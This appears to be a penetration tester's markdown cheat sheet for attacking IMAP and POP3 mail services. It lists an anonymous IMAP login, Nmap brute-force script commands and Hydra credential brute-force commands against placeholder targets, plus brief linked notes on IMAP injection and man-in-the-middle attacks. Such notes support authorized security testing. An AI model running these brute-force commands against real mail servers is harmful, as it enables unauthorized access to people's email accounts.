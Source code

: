 ```yaml
---
id: Exploitation
aliases: []
tags: []
---
```


# Exploitation

<!-- Checklist {{{-->
## Checklist

### IMAP

- [ ] Try already discovered credentials
- [ ] [[Exploitation#Brute Force|Brute force]]
    - [ ] [[Exploitation#Nmap (IMAP)|Nmap]]
    - [ ] [[Exploitation#Hydra (IMAP)|Hydra]]

### POP3

- [ ] Try already discovered credentials
- [ ] [[Exploitation#Brute Force (POP3)|Brute Force]]
    - [ ] [[Exploitation#Nmap (POP3)|Nmap]]
    - [ ] [[Exploitation#Hydra (POP3)|Hydra]]

<!-- }}} -->

<!-- IMAP {{{-->
## IMAP

<!-- Anonymous Login {{{-->
### Anonymous Login

```sh
a1 LOGIN "" ""
```

<!-- }}} -->

<!-- Brute Force {{{-->
### Brute Force

Brute force imap server credentials

<!-- Nmap {{{-->
#### Nmap (IMAP)

```sh
nmap --script imap-brute -p 143,993 <target_ip> -oA imap-brute
```

```sh
nmap -sV --script imap-brute -p <port> <target_ip> -oA imap-brute-version
```
<!-- }}} -->

<!-- Hydra {{{-->
#### Hydra (IMAP)

```sh
hydra -L <users.txt> -P <passwords.txt> imap://<target>
```

```sh
hydra -l <username> -P <passwords.txt> -f <target> imap -V
```

```sh
hydra -S -v -l <username> -P <passwords.txt> -s 993 -f <target> imap -V
```
<!-- }}} -->

<!-- }}} -->

<!-- IMAP Injection {{{-->
### IMAP Injection

[IMAP injection attacks](https://hackviser.com/tactics/pentesting/services/imap#imap-injection)
involve injecting malicious commands or data into IMAP requests
to exploit vulnerabilities in the server software
or gain unauthorized access to email accounts.
<!-- }}} -->

<!-- Man-in-the-Middle {{{-->
### Man-in-the-Middle

[MitM attacks](https://hackviser.com/tactics/pentesting/services/imap#man-in-the-middle-mitm-attacks)
on IMAP traffic can intercept and modify email messages exchanged
between the client and server, compromising the confidentiality
and integrity of email communication.
<!-- }}} -->

<!-- }}} -->

<!-- POP3 {{{-->
## POP3

<!-- Brute Force {{{-->
### Brute Force (POP3)

Brute force POP3 login credentials

#### Nmap (POP3)

```sh
nmap -p 110 --script pop3-brute --script-args userdb=users.txt,passdb=pass.txt <target> -oA pop3-brute
```

#### Hydra (POP3)

```sh
hydra -L <users.txt> -P <passwords.txt> -f <target> pop3 -V
```

```sh
hydra -l <username> -P <passwords.txt> -f <target> pop3 -V
```
<!-- }}} -->

<!-- }}} -->
